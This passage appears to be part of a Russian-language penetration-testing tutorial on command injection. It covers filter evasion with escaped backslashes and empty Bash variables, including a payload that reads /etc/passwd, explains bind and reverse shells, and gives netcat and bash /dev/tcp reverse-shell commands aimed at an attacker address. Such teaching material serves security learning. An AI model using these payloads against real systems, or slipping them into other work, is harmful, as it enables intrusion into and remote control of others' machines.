 Использование двойного обратного слеша может выглядеть так:

- `/b\\\\in/l\\\\s`

### 6. Неинициализированные переменные Bash

Неинициализированные переменные обрабатываются как пустые строки:

- Пример: `cat$a /etc#$a/passwd$a` выполнится как `cat /etc/passwd`.

### OS Shell (Bind/Reverse)

**Шелл** — это доступ к командной оболочке удалённой системы. В контексте информационной безопасности различают два типа шеллов: **Bind Shell (прямой)** и **Reverse Shell (обратный)**.

- **Bind Shell**: Бэкдор прослушивает порт на удалённом компьютере, ожидая подключения.
- **Reverse Shell**: Удалённый компьютер инициирует запрос к машине атакующего, где запущена программа для управления бэкдором.

**Использование**:

- Прямой шелл подходит для машин с белым IP.
- Обратный шелл используется, если удалённый компьютер за NAT или его файрвол блокирует входящие соединения.

### Инструменты для создания Reverse Shell

### 1. Netcat

**Netcat** — инструмент для создания TCP и UDP соединений. Чтобы получить обратный шелл:

- На уязвимом сайте:
    
    ```bash
    nc 123.456.789.321 4444
    ```
    
- На атакующей машине:
    
    ```bash
    nc -lnvp 4444
    ```
    

**Проблема**: Вероятность наличия Netcat на сервере низка.

### 2. Bash

Если Netcat не доступен, можно использовать стандартные оболочки, такие как **Bash**. Для создания Reverse Shell через bash:

- Создайте пейлоад с помощью сайта [Online Reverse Shell Generator](https://www.revshells.com/).
- Введите команду:
    
    ```bash
    bash -c 'exec bash -i &>/dev/tcp/IP/4444 <&1'
    ```
    